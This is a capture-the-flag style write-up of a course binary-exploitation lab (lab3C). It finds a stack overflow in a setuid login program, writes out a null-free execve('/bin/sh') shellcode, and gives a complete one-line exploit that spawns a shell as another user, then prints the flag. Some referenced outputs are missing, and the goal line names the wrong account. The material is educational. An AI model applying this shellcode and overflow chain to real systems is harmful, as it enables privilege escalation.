

# Modern Binary Exploitation - lab3C
 
| | |
| --- | --- |
| **Lab** | 03 · Shellcoding |
| **Tier** | C (entry) |
| **Target** | `/levels/lab03/lab3C` (ELF32, Intel 80386, non-PIE) |
| **Class** | Stack-based buffer overflow |
| **Root cause** | `fgets` called with a length argument (100) larger than its 64-byte destination buffer |
| **Impact** | Saved return-address overwrite → arbitrary code execution as lab3B |
| **Goal** | run injected shellcode as the setuid owner and retrieve the .pass for `lab3C` |
| **Difficulty** | Low (no stack canary, NX, PIE, or ASLR) |


## Overview
 
lab03 is the Shellcoding lab, and this is its entry tier. lab02 forced us to reuse code already present in the binary, because NX marked the stack non-executable. lab03 clears NX, so injected bytes can run, and the task becomes supplying that code ourselves. The target is a small login program that reads a username and a password. The password read overflows a stack buffer in `main` with nothing guarding the saved return address, which hands us control of EIP. For the code itself we use the username field, which is stored at a fixed address and, with NX off, is executable, so it serves as the host for a short `execve("/bin/sh")` stub. We overwrite the saved return address with the address of that stub.
 
## First look
 
Logged in as `lab3C`, the first thing we look at is the target's permissions:
 


The s in the mode string `-r-sr-x---` is the `setuid` bit, and the owner is `lab3B`, so any code the program runs executes with `lab3B`'s effective `uid`.

Because this is the shellcoding tier, the mitigation posture is not a formality. It decides whether injected code can run at all, so we read it before anything else.


Everything is off. `NX` disabled makes the stack executable, so injected shellcode runs. `CANARY` disabled leaves nothing between the buffer and the saved return address, so the offset is just buffer-to-EIP. `PIE` disabled keeps addresses fixed, which we rely on when choosing where to jump.

Running it blind shows the surface:

```bash
$ ./lab3C
********* ADMIN LOGIN PROMPT *********
Enter Username: admin
verifying username....

nope, incorrect username...
```

## Disassembling `main`

`main` is the dispatcher. It reads a username into a global, checks it, then reads a password into a stack buffer and checks that. The relevant lines:


```asm
0x08048798 <+8>:   sub    esp,0x60                   ; reserve locals
0x0804879b <+11>:  lea    ebx,[esp+0x1c]             ; the password buffer
0x080487ad <+29>:  rep stos DWORD PTR es:[edi],eax   ; zero 16 dwords = 64 bytes at esp+0x1c

; username: read into a global, then checked
0x080487d8 <+72>:  mov    DWORD PTR [esp+0x4],0x100  ; fgets size = 256
0x080487e0 <+80>:  mov    DWORD PTR [esp],0x8049c40  ; fgets dest = the name global
0x080487e7 <+87>:  call   0x80485f0 <fgets@plt>      ; fgets(0x8049c40, 256, stdin)
0x080487ec <+92>:  call   0x804873d <verify_user_name>
0x080487f5 <+101>: cmp    DWORD PTR [esp+0x5c],0x0
0x080487fa <+106>: je     0x804880f <main+127>       ; strncmp matched -> password stage

; password: read into the stack buffer
0x08048824 <+148>: mov    DWORD PTR [esp+0x4],0x64   ; fgets size = 100
0x0804882c <+156>: lea    eax,[esp+0x1c]             ; fgets dest = the 64-byte buffer
0x08048833 <+163>: call   0x80485f0 <fgets@plt>      ; fgets(buf, 100, stdin)   -- 100 > 64
0x0804883f <+175>: call   0x804876d <verify_user_pass>

; epilogue
0x0804886e <+222>: lea    esp,[ebp-0x8]
0x08048874 <+228>: ret                                ; returns into the overwritten saved EIP
```

Arguments to a `cdecl` call are laid out at the top of the frame, so `[esp]`, `[esp+0x4]`, and `[esp+0x8]` are the first, second, and third arguments to `strncmp`. Reading them off, the call is `strncmp(0x8049c40, 0x8048928, 6)`. 

The expected string confirms what we are matching against:

```
gdb-peda$ x/s 0x8048928
0x8048928:  "rpisec"
```

Two facts fall out, and both feed the exploit later. First, the username only has to match in its first six bytes, because the length is capped at `6`. Second, the name is compared at the **global** address `0x8049c40`, not on the stack. Nothing in this function reads the name, so the read happens elsewhere, into that global. A fixed, non-stack address that we can write into is worth remembering, because with PIE off it is identical on every run and under the debugger.
 
## The password overflow
 
The password read is the vulnerable one. We confirm control directly rather than infer it, by sending a marked payload and reading the frame back.
 
We send eighty filler bytes followed by a four-byte marker:

```python
>>> 'a'*80 + 'b'*4
'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbb'
```

Entered as the password, with `rpisec` given as the username to clear the gate, this is the frame one step before `main` returns:



Only the **saved** `eip` reads `0x62626262`, our four `b` bytes, so the slot we control is `main`'s saved return address at `0xbffff6fc`. `verify_user_pass` runs after the overflowing read, so it returns normally and the hijack lands on `main`'s `ret`, not the helper's.

## The bug
 
The password read writes past the end of its stack buffer in `main` with no bound that stops it before the saved return address. Eighty bytes of input reach the four bytes of the saved `eip`, and the next four overwrite it with whatever we choose. The `Saved registers` line gives the exact slot, and the geometry follows from it:

```
buffer start   0xbffff6ac      ( = 0xbffff6fc - 0x50 )
saved ebp      0xbffff6f8       offset 76
saved eip      0xbffff6fc       offset 80   <- control
frame top      0xbffff700
```
 
So the payload shape is fixed:
 
```
[ 80 bytes filler ][ 4 bytes saved EIP ]
```

Saved `ebp` at offset 76 is also overwritten, which is harmless here. `main` never returns normally in our run, so a corrupted `ebp` costs us nothing.

## A stable execution address

With NX off we need an executable address to hold the shellcode, and the two `fgets` give two candidates.
 
The stack buffer moves between the debugger and a direct run, so a hardcoded jump into it is unreliable. The username global does not move: `fgets(0x8049c40, 256, stdin)` stores our input at a fixed, non-PIE address, and the gate checks only the first six bytes, so everything after `rpisec` is ours. We put the shellcode there and point the saved EIP at `0x8049c46`, the byte past `rpisec`.

## Writing the shellcode

The code we host has to call `execve("/bin/sh", ...)` and contain no null byte and no `0x0a`, since either would end an `fgets`. The standard 25-byte stub does it:
 
```asm
31 c0              xor  eax, eax         ; eax = 0
50                 push eax              ; string terminator
68 2f 2f 73 68     push 0x68732f2f       ; "//sh"
68 2f 62 69 6e     push 0x6e69622f       ; "/bin"
89 e3              mov  ebx, esp         ; ebx -> "/bin//sh"
50                 push eax              ; argv terminator
89 e2              mov  edx, esp         ; envp = NULL
53                 push ebx
89 e1              mov  ecx, esp         ; argv = { "/bin//sh", NULL }
b0 0b              mov  al, 0x0b         ; __NR_execve
cd 80              int  0x80
```
 
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3
\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```
 
The doubled slash in `/bin//sh` pads the path to eight bytes so both pushes are null-free, and the kernel reads `//` as `/`. There is no `0x00` and no `0x0a` in the bytes, so both reads carry it intact.

## Exploitation

The username line carries the shellcode, the password line carries the overflow. Neither contains a newline before its terminator, so each `fgets` takes exactly one line:

```
username:  rpisec + <25-byte stub>
password:  "A" * 80 + \x46\x9c\x04\x08      ; saved EIP -> 0x8049c46
```
 
`verify_user_name` matches on `rpisec`, which leaves the stub resting at `0x8049c46`. The password then overwrites the saved return address with that same address. The offset is a fixed 80: ASLR stays off through this stage of the course, so the stack sits in the same place on every run and the single placement lands deterministically. When `main` returns it jumps into the stub and spawns `/bin/sh` with `lab3B`'s euid. The shell inherits stdin, so we keep it open with a trailing `cat`:
 
```
(python -c 'print "rpisec" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"'; python -c 'print "A"*80 + "\x46\x9c\x04\x08"'; cat) | ./lab3C
```

Two details of the output look like failure and are not. The program prints `nope, incorrect password...` before the shell appears, because the overflow happens at the password `fgets`, before `verify_user_pass` runs. The check still executes against our filler, fails, and prints its message, and only then does `main` reach `ret` and jump into the stub. The message is normal output, not a failed exploit. And the spawned `sh` has no prompt, because stdin is the pipe rather than a terminal, so it runs non-interactively. Commands still execute:


Flag: `th3r3_iz_n0_4dm1ns_0n1y_U!`
